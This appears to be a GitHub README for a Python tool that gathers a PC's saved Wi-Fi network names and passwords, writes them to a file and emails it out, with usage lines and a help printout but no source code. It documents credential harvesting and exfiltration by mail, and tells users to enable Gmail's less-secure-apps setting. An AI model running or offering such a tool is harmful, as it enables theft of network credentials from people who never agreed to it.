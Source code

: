 ﻿# :signal_strength: PC-Wi-Fi-Passwords-Gathering-Tool 
* This is the commandline tool helps to gather SSID &amp; passwords , make a file &amp; send it to recipient's mail
* NOTE : for sending mail you should turn on less secure apps option :link: https://myaccount.google.com/lesssecureapps

### :pushpin: Prerequisites 
*  ```python 3 ``` :snake:
*  ```pip install -r requirements.txt```

### Usage
```
python wifi_tool.py [-h] -s S -p P -r R [-f F] [-v]
the following arguments are required: -s, -p, -r

Example : python wifi_tool.py -s shanmukmichael@gmal.com -p password123 -r shanmukmichael@gmal.com -f password_hack.pdf
```

## Tool Options

- ### Help -h | --help
```
python wifi_tool.py -h
```
```
PC Wi-Fi Passwords Gathering Tool
---------------------------------

required arguments:
  -s S           : sender mail id Ex: -s shanmukmichael@gmail.com
  -p P           : sender mail password Ex: -p password123
  -r R           : receiver mail id Ex: -r shanmukmichael@gmail.com

 optional arguments:
  -f F           : filename with .txt (or) .pdf extension
                   DEFAULT filename set as Wi-Fi_Profiles.pdf
  -v, --version  : show tool version
```

- ### Version -v | V
```
python wifi_tool.py -v
```

``` 
 Author: mr_shanmuk

 Github: githhub.com/shanmukmichael

 PC Wi-Fi Passwords Gathering Tool Version : v1.0
```
:beetle: report :link: https://github.comshanmukmichael/PC-Wi-Fi-Passwords-Gathering-Tool/issues
